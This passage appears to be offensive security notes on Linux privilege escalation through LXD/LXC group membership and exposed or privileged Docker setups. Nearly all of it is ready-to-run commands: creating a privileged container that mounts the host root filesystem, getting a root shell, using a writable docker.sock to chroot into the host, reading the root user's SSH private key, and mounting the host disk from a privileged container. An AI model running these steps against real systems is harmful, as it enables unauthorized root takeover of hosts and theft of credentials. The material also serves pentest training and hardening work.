 - Step 1: 
```sh
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```
- Step 2 : 
```sh
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

- Get a root shell : 
```sh
lxc start privesc
lxc exec privesc /bin/bash # or sh for the command 
```

**Docker** 
#Docker

- Create our own docker : 
```sh
wget https://master.dockerproject.org/linux/x86_64/docker
chmod +x docker
	docker -H unix:///app/docker.sock ps
``` 

```sh
docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
docker -H unix:///app/docker.sock ps
docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash

cat /hostsystem/root/.ssh/id_rsa
```

- Other way to privesc when the socket is writable  :

```sh
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```



- **--privileged` flag`**

The --privileged flag allows the container to have access to the host devices.

Well configured docker containers won't allow command like **fdisk -l**. However on miss-configured docker command where the flag --privileged is specified, it is possible to get the privileges to see the host drive.

So to take over the host machine, it is trivial:

```shell
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```
- Need to be root to be able to mount .
	**Bonus**: If you want to know the container id it's located in /etc/hostname of the docker container
